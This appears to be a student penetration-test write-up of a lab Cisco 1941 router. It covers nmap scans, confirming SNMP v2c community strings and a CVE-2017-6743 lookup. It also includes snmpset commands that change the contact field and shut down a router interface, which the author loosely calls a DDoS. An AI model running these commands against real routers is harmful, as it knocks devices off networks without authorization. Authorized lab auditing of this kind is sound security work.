






## Explicit Permission to test their Cisco Router-Switch system in Haaga Helia Lab Environment

# Security Audit of Cisco Router-Switch System

## x. 

I know from physical access that there are 2 routers and 3 switches on this network. I also have the SSH access to normal user on these switches. They all run Cisco OS and I am simply looking for vulnerabilities.

The router model is `C1900 Integrated Services Router` from Cisco 1941 series

The OS version is `15.5(3)M5`

Image type: `universalk9`

##### Note 

This version is rather old (last update in 2019) and not up to date and potentially vulnerable. 

## a. Scanning

I am on the same host network as the Cisco router on subnet 172.28.x.x

My Kali Linux is on bridged adapter on the same subnet. 
I began by conducting an nmap scan on the target device using `nmap -A -Pn -T4 -vv -p- <target>`

The only open port was SSH on port 22. After feeding the image to ChatGPT 5.0 for deciphering, some details from the image include `1024 bit RSA`, `OS: IOS`, `IOS 12.4-15.x version`, `Vendor: Cisco Systems, Inc.`

But we already know this is a genuine Cisco device of model 1900 series and is running version 15.5(3).

I tried again using `sudo nmap -sS -p- -T4 --reason --max-retries 2 <target>` just to make sure I got all tcp ports along with sudo command.

This time it showed a lot more ports but they were mostly filtered.

I tried one more nmap with UDP ports `sudo nmap -sU --top-ports 200 --reason --max-retries 2 <target>`

Now there's more ports open, although I cannot be sure they mean anything yet.

Right now the main ports that are open are port: `22 ssh`, `123 ntp`, `161 snmp`

I began by looking at CVEs on the internet for Cisco routers and stumbled upon one regarding the 161 snmp port: https://www.cvedetails.com/cve/CVE-2017-6743/ 

This one is a buffer overflow vulnerability for remote code execution. I first must confirm that the snmp port works.`snmpwalk -v2c -c public 172.28.200.2 1.3.6.1.2.1.1.5.0` shows if SNMP v2 works and if this returns a public string, which it does: `iso.3.6.1.2.1.1.5.0 = STRING: "Lab-R2.tielab.haaga-helia.fi"` it will open up an attack vector.

## b. Exploitation

Now that we know it is potentially vulnerable to snmp exploits, we will do some confirmation with Metasploit.

`use auxiliary/scanner/snmp/snmp_login` will help me confirm my suspicion that it is vulnerable if it completes.

It has successfully completed and It says `LOGIN SUCCESSFUL public access level read-only` and validated the community string. This system is now very highly likely vulnerable.

However, upon browsing the internet and searching for an exploit I have not found an exploit and would need to write one myself which is very unlikely because I do not have the knowledge related to Cisco IOS. I only found a python exploit on Github that exploits the 15.1(4)M12a version is an older version and this is updated. 

Source: https://github.com/artkond/cisco-snmp-rce

I do not believe I can customize the exploit to work on the newer system so the risk remains relatively low. However, since we have the private string we can use it to do a simple DDoS attack.

Iterating through the OIDs using snmpwalk we can find different identifiers for the services and info on the router.

Read through all available OIDs
`snmpwalk -v 2c -c private 172.28.200.3`

Read through sysContact email
`snmpget -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0`

Change sysContact email
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.1.4.0 s "admin@example.com"`

Read strings for the services available
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.2`

Read which services have admin enabled:
`snmpwalk -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7`

Turning off the ifAdminStatus interface on router, not allowing traffic to be sent or received
`snmpset -v 2c -c private 172.28.200.3 1.3.6.1.2.1.2.2.1.7.3 i 2`

Now we cannot get in contact with the router anymore and have succesfully DDoSed it on the network.

## c. Summary

The Cisco router is running an outdated OS 15.5(3)M5 with SNMP v1 and v2c enabled using the default public community string. The SNMP port is open, making the device potentially vulnerable to CVE-2017-6743. There was an outdated exploit for version 15.1(4)M12a which does not work on the current IOS system, thus the system presents only a low risk attack vector due to outdated firmware and open ports. 

A threat actor would need physical access to the network and also know the password for the network in order to be able to interact with the ports, thus I label this as low risk and unlikely to be hacked. Nonetheless the right precautions should be taken as they can still DDoS the routers if the SNMP ports are online and misconfigured. 

References:
https://www.reddit.com/r/netsec/comments/7oawj2/

cisco_ios_snmp_remote_code_execution_cve20176737/

https://nvd.nist.gov/vuln/detail/cve-2017-6743

https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-20170629-snmp.html

